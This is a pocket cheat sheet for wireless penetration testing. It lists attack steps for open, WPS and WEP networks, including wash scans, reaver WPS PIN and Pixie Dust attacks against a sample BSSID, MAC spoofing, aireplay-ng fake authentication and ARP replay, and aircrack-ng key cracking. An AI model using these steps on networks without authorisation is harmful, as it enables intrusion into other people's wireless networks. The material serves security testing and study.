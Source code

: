 # Offensive Security Wireless Pen-Testing Cheat Sheet [Pocket Version]

## Procedures by Protocol

-----------------

## A. Open Network

* Connect with OPN WPA Supplicant Configuration

--------

## B. WPS Based Network

* Scan for WPS Networks

* use wash 
  
  * `wash -i wlan0mon`

* WPS Attack
  
  * `reaver -b 34:08:04:09:3D:38 -i wlan0mon -c 11 -v`
  
  * `sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K`

* Reconnect using wpa_supplicant

----------------------------------

## C. WEP Based Network

* Packet capture to save credentials
  
  * airodump

* Spoof Mac Address as needed 
  
  * Macchanger

* Fake auth 
  
  * aireplay-ng ``aireplay-ng -1``

* If Fake auth worked gather new IVs [as many IVs as possible]
  
  * ARP Replay attack ``aireplay-ng -3``

* Password Crack
  
  * aircrack-ng

* Reconnect
  
  * wpa_suplicant 
